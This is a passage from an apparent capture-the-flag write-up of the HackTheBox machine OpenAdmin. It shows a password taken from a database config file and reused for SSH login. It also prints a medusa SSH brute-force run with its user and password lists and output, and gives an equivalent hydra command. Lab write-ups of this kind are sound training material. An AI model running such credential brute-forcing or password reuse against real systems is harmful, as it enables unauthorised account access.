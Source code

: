 These credentials are for [http://10.10.10.171/ona/](http://10.10.10.171/ona/)

## User (jimmy) 

The password we found in `/opt/ona/www/local/config/database_settings.inc.php` (`n1nj4W4rri0R!`) worked to log in as jimmy with SSH.

### Bruteforcing SSH

#### `medusa`

```bash
$ cat users.txt 
jimmy
joanna
$ cat pass.txt 
n1nj4W4rri0R!
test
admin
$ medusa -h $TARGET -U users.txt -P pass.txt -M ssh 
Medusa v2.2 [http://www.foofus.net] (C) JoMo-Kun / Foofus Networks <jmk@foofus.net>

ACCOUNT CHECK: [ssh] Host: 10.10.10.171 (1 of 1, 0 complete) User: jimmy (1 of 2, 0 complete) Password: n1nj4W4rri0R! (1 of 3 complete)
ACCOUNT FOUND: [ssh] Host: 10.10.10.171 User: jimmy Password: n1nj4W4rri0R! [SUCCESS]
ACCOUNT CHECK: [ssh] Host: 10.10.10.171 (1 of 1, 0 complete) User: joanna (2 of 2, 1 complete) Password: n1nj4W4rri0R! (1 of 3 complete)
ACCOUNT CHECK: [ssh] Host: 10.10.10.171 (1 of 1, 0 complete) User: joanna (2 of 2, 1 complete) Password: test (2 of 3 complete)
ACCOUNT CHECK: [ssh] Host: 10.10.10.171 (1 of 1, 0 complete) User: joanna (2 of 2, 1 complete) Password: admin (3 of 3 complete)
```

#### `hydra` 

We could done that with `hydra` too:

> `hydra -L users.txt -P pass.txt $TARGET ssh`

![hydra](/assets/img/htb/machines/linux/easy/openadmin/hydra.png)
